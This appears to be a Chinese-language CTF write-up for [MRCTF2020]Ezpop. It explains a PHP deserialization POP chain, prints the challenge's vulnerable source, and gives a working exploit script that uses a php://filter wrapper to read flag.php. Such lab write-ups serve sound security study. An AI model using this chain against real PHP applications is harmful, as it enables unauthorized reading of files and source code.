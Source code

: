 # 原创
：  [MRCTF2020]Ezpop

# [MRCTF2020]Ezpop

#### [MRCTF2020]Ezpop

## 考点

> 
反序列化、构造 POP 链


## 思路

> 
1、__wakeup() 方法通过 preg_match() 将 $this-&gt;source 做字符串比较，如果 $this-&gt;source 是 Show 类，就调用了__toString() 方法；<br/> 2、__toString() 访问了 str 的 source 属性，str 是 Test 类，不存在 source 属性，就调用了 Test 类的__get() 魔术方法；<br/> 4、__get() 方法将 p 作为函数使用，p 实例化为 Modify 类，就调用了 Modifier 的__invoke() 方法；<br/> 5、__invoke() 调用了 append() 方法，包含 $value，若将 $value 为伪协议，则可读 flag.php 源码


## Payload

> 
index.php源码


```
&lt;?php
//flag is in flag.php
//WTF IS THIS?
//Learn From https://ctf.ieki.xyz/library/php.html#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%AD%94%E6%9C%AF%E6%96%B9%E6%B3%95
//And Crack It!
class Modifier {
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this-&gt;append($this-&gt;var);
    }
}

class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this-&gt;source = $file;
        echo 'Welcome to '.$this-&gt;source."&lt;br&gt;";
    }
    public function __toString(){
        return $this-&gt;str-&gt;source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this-&gt;source)) {
            echo "hacker";
            $this-&gt;source = "index.php";
        }
    }
}

class Test{
    public $p;
    public function __construct(){
        $this-&gt;p = array();
    }

    public function __get($key){
        $function = $this-&gt;p;
        return $function();
    }
}

if(isset($_GET['pop'])){
    @unserialize($_GET['pop']);
}
else{
    $a=new Show;
    highlight_file(__FILE__);
}

```

> 
POP链：<br/> pop链的开始是Show类，使用反序列化去触发__wakeup魔术方法，__wakeup触发__toString，然后访问不存在的source属性，触发Test类里的__get方法，__get再以访问函数的形式访问一个类去触发Modifier类里的__invoke方法，此方法再调用append函数，完成flag.php的读取


```
&lt;?php
class Modifier{
	protected $var = "php://filter/read=convert.base64-encode/resource=flag.php";
}
class Show{
	public $source;
	public $str;
	public function __construct($file){
		$this-&gt;source = $file;
	}
}
class Test{
	public $p;
	public function __construct(){
		$this-&gt;p = new Modifier();
	}
}

$a = new Show('a');
$a-&gt;str = new Test();
$H3rmesk1t = new Show($a);
echo urlencode(serialize($H3rmesk1t))."\n";
?&gt;

```
